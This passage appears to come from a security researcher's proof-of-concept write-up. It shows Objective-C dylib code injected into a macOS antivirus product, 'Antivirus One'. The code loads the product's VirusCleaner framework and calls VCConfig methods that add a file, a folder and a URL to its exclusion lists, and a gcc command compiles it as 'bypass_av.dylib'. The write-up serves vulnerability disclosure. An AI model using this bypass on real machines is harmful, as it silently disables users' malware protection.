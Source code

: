 ```Objective-c
    NSLog(@"[+] Injected to %@", [[NSBundle mainBundle] bundleIdentifier]);
    
    NSString *virus_cleaner = @"/Applications/Antivirus One.app/Contents/Frameworks/VirusCleaner.framework/Versions/Current/VirusCleaner";

    void *frameworkHandle = dlopen([virus_cleaner UTF8String], RTLD_NOW);

    if (frameworkHandle) {
        NSLog(@"[+] VirusCleaner Framework loaded");

        Class VCConfigClass = nil;

        VCConfigClass = NSClassFromString(@"VCConfig"); 

        if (VCConfigClass == nil){
            NSLog(@"[-] Error: couldn't obtain VCConfig class");
            exit(-1); 
        }
   
        VCConfig *info = [[VCConfigClass alloc] init];

        VCConfig *info_shared = [VCConfigClass sharedInstance];

        NSLog(@"[+] addToExceptionFiles");
        [info_shared addToExceptionFiles:@"/tmp/poc/proof.txt"];
        
        NSLog(@"[+] addToExceptionFolders");
        [info_shared addToExceptionFolders:@"/tmp/poc"];
        
        NSLog(@"[+] addToExceptionDomains");
        [info_shared addToExceptionDomains:@"https://syrion.me"];

        [task resume];

        dlclose(frameworkHandle);
    } 
    else {
        NSLog(@"[-] Error: %s", dlerror());
    }
}
```

We define the **VCConfig** interface and its properties and methods (from the **class-dump** output), then using **dlopen** we open the **VirusCleaner** framework, with **NSClassFromString** we get the reference to the **VCConfig** class, and at this point we can allocate an instance of **VCConfig** and call the three methods in order to add the file "**/tmp/poc/proof.txt**", the folder "**/tmp/poc**" and the url "**https://syrion.me**" in the exception list.

We can compile the dylib as shown below.

```bash
gcc -dynamiclib -framework Foundation -framework AVFoundation -framework Cocoa bypass_av.m -o /tmp/bypass_av.dylib
```
